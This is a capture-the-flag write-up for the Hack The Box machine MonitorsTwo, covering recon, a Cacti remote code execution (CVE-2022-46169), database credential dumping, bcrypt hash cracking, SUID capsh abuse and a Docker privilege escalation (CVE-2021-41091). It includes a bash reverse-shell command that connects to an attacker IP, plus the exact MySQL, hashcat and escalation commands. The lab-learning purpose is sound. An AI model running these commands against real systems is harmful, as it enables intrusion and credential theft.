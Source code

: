 ```yaml
---
title: HTB | MonitorsTwo - Write Up
date: 2023-07-9 14:00:00 -500
categories: [HTB, write-ups]
tags: [htb,red-team,ctf]
img_path: /assets/img/monitorstwo
---
```


## NMAP

`nmap -p- -sV -sC 10.10.11.211`

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-25 14:22 PDT
Nmap scan report for 10.10.11.211
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.17 seconds
```

## Gobuster

```
gobuster dir --url http://10.10.11.211/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,xml 
```

![gobuster-resaults](Pasted image 20230625144349.png)

Nothing too interesting was found, so moving on to see if we can glean any information from cacti site itself.

## Cacti

![cacti](Pasted image 20230625142620.png)

Version of Cacti running is:  1.2.22 

According to the change log there is a CVE that was patched in version 2.2.3 
![change-log](Pasted image 20230625144433.png)

## RCE for Cacti
Write up on the Command execution found on google: [https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/)

CVE POC: [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)

I was able to download a copy of the payload from the github, and run it on my machine to get a shell open via a netcat reverse tunnel

![copying-over-payload](Pasted image 20230625152056.png)

The bit of the payload that creates the revshell
![](Pasted image 20230625152555.png)

```
python3 cacti_poc.py http://10.10.11.211/ -c "bash -c 'bash -i >& /dev/tcp/10.10.14.7/1337 0>&1'"
```

## Finding the Good stuff

![etc/password](Pasted image 20230625152954.png)

Interesting file in `/` called `entrypoint.sh`, chmod +x gives us a command that will connect to the mysql server

![entrypoint.sh](Pasted image 20230625155852.png)

After connecting to the database we are able to query to see what tables are there. Some of the more interesting ones are shown bellow.

![msql-query](Pasted image 20230625160618.png)

Using the following msql command we are able to dump all of the table contents from the user_auth table.
```
mysql --host=db --user=root --password=root -e "select * from user_auth" cacti
```

![mysql](Pasted image 20230625160456.png)

Here is the output for the for the SQL command:
```
< --password=root -e "select * from user_auth" cacti
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms

1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	1	1	1	on	-1	-1	-1	00	663348655

3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1		0	0	0

4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	1	1	1	on	-1	-1		on	0	0	2135691668

```

The logins are emails which gives us the FQDN they are using: `monitorstwo.htb`

## Password Decryption 

admin	
`$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC`

marcus	
`$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C`

Hashes start with `$2y$`  which is Bcrypt (blowfish)

Running hashcat against the hashes in mode 3200 for Bcrypt:
```
hashcat -a 0 -m 3200 2mon-hash.txt /usr/share/wordlists/rockyou.txt 
```

One Hash has a hit:
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:
`funkymonkey`

## User Takeover
`ssh marcus@10.10.11.211`

Marcus ssh:

![you-got-mail](Pasted image 20230625164011.png)

Looks like Marcus has some system mail, wonder if there is anything in there?

![the-mail](Pasted image 20230625164443.png)

This is looking like the next area for attack: `CVE-2021-41091`

Checking the running process shows that Docker containers running int he moby namespace are present:
![](Pasted image 20230709154945.png)

There is an exploit for this [https://github.com/UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Secondary Artical:
[https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/](https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/)

I downloaded the POC from the GitHub repo and then copied over to the remote machine:

![phython-webserver](Pasted image 20230709160353.png)

![exploit-copied](Pasted image 20230709160420.png)

Running the script will work and it gives us a venerable path:
```
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
``````

![mobi-fail](Pasted image 20230709160533.png)

However, its not able to execute a shell, My guess is that we will need to go back to our remote shell on the Cacti instance and change some settings from there. Since the POC suggested that the /bin/bash of the container needs to have the setuid bit enabled

## Privilege Escalation
Getting back into the Cacti container I was able to download linpeas over to the /tmp directory and execute it

![http-request](Pasted image 20230709161446.png)

Found some interesting files particularly: /sbin/capsh
![linpeas](Pasted image 20230709165556.png)

Looks like we can run it and it has the SUID bit set:

![sbin/capsh](Pasted image 20230709165718.png)

![sbin/capsh-2](Pasted image 20230709165645.png)

We can give ourselves root by using: `/sbin/capsh --gid=0 --uid=0 --`
and then set the SUID bit on /bin/bash with `chmod u+s /bin/bash`

![rev-shel](Pasted image 20230709171813.png)

## We have Root!

Re-ran moby-exp.sh:
![moby](Pasted image 20230709171918.png)

Shell spawned, but exited time to re-connect

![root-1](Pasted image 20230709172038.png)

We have root! Now its time for the Flag!

![root-2](Pasted image 20230709172234.png)

![completed](Pasted image 20230709172323.png)
